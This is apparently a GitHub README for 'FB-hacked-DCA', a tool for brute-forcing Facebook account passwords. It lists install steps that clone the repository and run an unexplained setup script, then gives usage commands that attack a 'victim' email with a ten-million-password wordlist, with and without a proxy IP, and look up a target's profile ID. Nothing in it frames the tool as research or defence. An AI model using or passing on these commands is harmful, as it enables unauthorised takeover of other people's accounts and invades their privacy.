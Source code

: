 # FB-hacked-DCA

#    Installation

apt update && apt upgrade -y
apt install git -y
git clone https://github.com/Tan-vai/FB-hacked-DCA
cd FB-hacked-DCA
bash setup
python hack.py


# use

# pkg can Use Victim email Or Facebook Profile Id:

# Brute Force On Facebook Account Without proxy:

Command: python hack.py -t victim@gmail.com -w 10MPASS.txt
Brute Force On Facebook Account With Proxy:

# Brute Force On Facebook Account With Proxy: 
Command: python hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

# Get Target Facebook Profile ID:
Get Target Facebook Profile ID:
Command: python facebook_hack.py -g https://www.facebook.com/zuck
